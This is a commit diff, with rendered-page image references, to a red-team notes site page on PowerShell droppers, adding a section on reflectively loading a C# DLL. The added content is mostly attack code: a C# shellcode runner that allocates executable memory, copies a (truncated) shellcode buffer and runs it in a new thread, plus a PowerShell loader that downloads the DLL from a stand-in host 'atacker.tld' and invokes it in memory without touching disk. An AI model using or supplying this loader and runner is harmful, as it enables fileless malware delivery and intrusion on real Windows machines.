

Before and after one commit to benjugat/rtnotes, an MkDocs documentation site: the page built from docs/malware/basics/powershell-dropper.md, in a window 1280 px wide and 1400 px high, scrolled down 11955 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 12527 px from its top, so only the background shows below that.

Commit message:
csharp reflective

````diff
--- a/docs/malware/basics/powershell-dropper.md
+++ b/docs/malware/basics/powershell-dropper.md
@@ -522,3 +522,46 @@ $WaitForSingleObject = [System.Runtime.InteropServices.Marshal]::
     GetDelegateForFunctionPointer($WaitForSingleObjectAddr, $WaitForSingleObjectDelegationType)
 $WaitForSingleObject.Invoke($hThread, [UInt32]"0xFFFFFFFF")
 ```
+
+# Reflective C# DLL loaded via PowerShell
+
+We can also reflective load c# assembly, in that case a compiled dll, in powershell without touching disk.
+
+First we need to create our dll with Visual Studio. (`Class Library (.NET Framework`).
+
+```csharp
+public class Class1
+{
+    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
+    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
+     uint flAllocationType, uint flProtect);
+
+    [DllImport("kernel32.dll")]
+    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
+      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
+
+    [DllImport("kernel32.dll")]
+    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
+
+    public static void runner()
+    {
+      byte[] buf = new byte[816] {0xfc,0x48,0x83,....};
+      int size = buf.Length;
+      IntPtr addr = VirtualAlloc((IntPtr)0, (uint)size, 0x3000, 0x40);
+      Marshal.Copy(buf, 0, addr, size);
+      IntPtr hThread = CreateThread((IntPtr)0, 0, addr, (IntPtr)0, 0, (IntPtr)0);
+      WaitForSingleObject(hThread, 0xFFFFFFFF);
+    }
+}
+```
+
+Once compiled we can host it via http and load it from powershell:
+
+```powershell
+$data = (New-Object System.Net.WebClient).DownloadData('http://atacker.tld/benjugat.dll')
+
+$assem = [System.Reflection.Assembly]::Load($data)
+$class = $assem.GetType("benjugat.Class1")
+$method = $class.GetMethod("runner")
+$method.Invoke(0, $null)
+```
````
Also changed, not shown: docs/malware/basics/csharp-dropper.md (+2 -3 lines).
